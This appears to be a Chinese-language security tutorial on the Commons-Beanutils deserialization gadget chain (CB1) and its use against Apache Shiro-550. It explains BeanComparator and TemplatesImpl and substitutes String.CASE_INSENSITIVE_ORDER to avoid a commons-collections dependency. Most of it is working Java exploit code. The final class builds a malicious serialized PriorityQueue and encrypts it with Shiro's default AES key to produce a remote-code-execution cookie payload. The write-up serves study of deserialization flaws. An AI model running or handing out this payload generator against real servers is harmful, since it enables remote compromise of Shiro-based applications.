





# 0x01 Apache Commons Beanutils

Apache Commons Beanutils 是 Apache Commons 工具集下的另一个项目
它提供了对JavaBean的一些操作方法

```java
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.8.3</version>
</dependency>
```

commons-beanutils中提供了一个静态方法 PropertyUtils.getProperty ，让使用者可以直接调用任意JavaBean的getter方法。

如对于下面这个POJO：

```java
public class Dog {
    private String name = "taco";

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }
}
```

```java
public static void main(String[] args) throws Exception {
    System.out.println(PropertyUtils.getProperty(new Dog(), "name"));
    // taco
}
```

`getProperty`会找到该对象的getter方法，调用并得到返回值

`BeanComparator` 是`commons-beanutils`提供的用来比较两个JavaBean是否相等的类，其实现了`java.util.Comparator` 接口。

`Comparator`是不是很熟悉？CC2中就利用到了这个接口
下面看看`BeanComparator` 的`compare`方法

```java
public class BeanComparator implements Comparator, Serializable {
    public int compare(Object o1, Object o2) {
        if (this.property == null) {
            return this.comparator.compare(o1, o2);
        } else {
            try {
                Object value1 = PropertyUtils.getProperty(o1, this.property);
                Object value2 = PropertyUtils.getProperty(o2, this.property);
                return this.comparator.compare(value1, value2);
            }   // catch Exceptions...
        }
    }
}
```

若property为空，直接比较两个对象；
若property不为空，则分别获取两个对象的property属性并比较

# 0x02 Weave POC

回忆`TemplatesImpl`的利用链

> TemplatesImpl#getOutputProperties() ->
> TemplatesImpl#newTransformer() ->
> TemplatesImpl#getTransletInstance() ->
> TemplatesImpl#defineTransletClasses() ->
> TransletClassLoader#defineClass()

`getOutputProperties`以get开头，满足`PropertyUtils.getProperty`对getter的定义

且该方法是public的，利用`PropertyUtils.getProperty`调用到getter

```java
public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
    Class clazz = obj.getClass();
    Field field = clazz.getDeclaredField(fieldName);
    field.setAccessible(true);
    field.set(obj, newValue);
}
public static void main(String[] args) throws Exception {
    TemplatesImpl obj = new TemplatesImpl();
    setFieldValue(obj, "_bytecodes",
                  new byte[][]{ClassPool.getDefault().get(Evil.class.getName()).toBytecode()
                              });
    setFieldValue(obj, "_name", "HelloTemplatesImpl");
    setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
    BeanComparator comparator = new BeanComparator();
    PriorityQueue pq = new PriorityQueue(comparator);
    setFieldValue(pq, "size", 2);
    setFieldValue(comparator, "property", "outputProperties");
    setFieldValue(pq, "queue", new Object[]{obj, obj});

    ByteArrayOutputStream barr = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(barr);
    oos.writeObject(pq);
    oos.close();
    System.out.println(barr);
    ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
    Object o = (Object)ois.readObject();
}
```



没找到 `org.apache.commons.collections.comparators.ComparableComparator`类
从包名可看出这个类是来自于`commons-collections`
其实若将`commons-beanutils`版本调高至1.9.2，是能够弹出计算器

下面先看看Shiro下的无依赖利用链

# 无依赖的Shiro反序列化利用链

之前的CC-Shiro中，需要依赖`commons-collections`
实际上Shiro中默认依赖了commons-beanutils



Shiro-550中自带依赖`commons-beanutils1.8.3`

若直接发送上面1.9.2的payload，Shiro会报错。

简单来说就是，两个不同版本的库使用了同一个类，这两个类可能有一些方法和属性有了变化，为防止序列化通信的时候因不兼容导致出现隐患，Java在序列化的时候会计算当前类的`serialVersionUID`，反序列化的时候若发现`serialVersionUID`的值不同则会抛出异常。

既然这样，把本地环境的`commons-beanutils`调成和服务器相同即可

但上文发现`commons-beanutils1.8.3`生成payload会报错
没找到 `org.apache.commons.collections.comparators.ComparableComparator`类

下面看看报错点`new BeanComparator();`和`ComparableComparator`有什么关系



调用`BeanComparator`的无参构造时，会默认使用`ComparableComparator.getInstance()`

既然Shiro的默认依赖里面没有 `org.apache.commons.collections.comparators.ComparableComparator`
我们需要找到平替

需要满足如下条件：

- 实现 `java.io.Serializable` 接口
- 实现 `java.util.Comparator` 接口
- 最好是java或shiro自带的

找到了`CaseInsensitiveComparator`
这个类是`java.lang.String`下的内部私有类
我们通过`String.CASE_INSENSITIVE_ORDER`来获取



```java
public class CB1 {
    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }
    public static void main(String[] args) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes",
                new byte[][]{ClassPool.getDefault().get(Evil.class.getName()).toBytecode()
        });
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        PriorityQueue pq = new PriorityQueue(comparator);
        setFieldValue(pq, "size", 2);
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(pq, "queue", new Object[]{obj, obj});

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(pq);
        oos.close();
//        System.out.println(barr);
//        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
//        Object o = (Object)ois.readObject();
        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource ciphertext = aes.encrypt(barr.toByteArray(), key);
        System.out.printf(ciphertext.toString());
    }
}
```

